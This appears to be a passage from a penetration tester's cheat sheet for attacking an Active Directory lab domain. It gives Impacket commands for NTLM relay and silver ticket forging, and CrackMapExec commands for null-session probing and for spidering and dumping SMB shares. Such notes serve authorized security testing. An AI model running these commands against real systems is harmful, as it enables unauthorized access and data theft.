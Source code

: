 ### Kerberos 

#### Create Machine Account for Silver Ticket / over LDAPS ( S required)
```bash
ntlmrelayx.py -t ldaps://domain.srhine.earth --add-computer
```

#### Silver Ticket - Use Machine Account Hash w/ SPN to create silver ticket 
```bash
impacket-ticketer -nthash $hash -domain-sid $domainSID -domain $domain -spn mssql/domain.shrine.earth Administrator 
python3 ticketer.py -nthash $hash -domain-sid $domainSID -domain $domain -spn mssql/domain.shrine.earth Administrator
```

## 2b. Playbooks

### Internal Pentest - Should have pretender and your relay solution still running. 

#### CrackMapExec enumeration
```bash
ip="192.168.0.238"
cidr="192.168.0.0/24"
user="adelev"
password="Password123"
domain="shrine"
fqdn="shrine.earth"
dc="domain.shrine.earth"
```

#### Low hanging fruit - null sessions, pass pol, recon, anonymous logon
```bash
crackmapexec smb $cidr
crackmapexec smb $cidr -u '' -p ''
crackmapexec smb $cidr --pass-pol
crackmapexec smb $cidr -u 'a' -p ''
```

#### Search Shares, Spider, Spider better, Dump all files
```bash
crackmapexec smb $ip -d $fqdn -u "$user" -p $password --users
crackmapexec smb $ip -d $fqdn -u "$user" -p $password --groups
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password --shares
crackmapexec smb $ip -d $fqdn -u "$user" -p $password --spider C\$ --pattern txt
crackmapexec smb $ip -d $fqdn -u "$user" -p $password -M spider_plus
crackmapexec smb $ip -d $fqdn -u "$user" -p $password -M spider_plus -o READ_ONLY=false
```

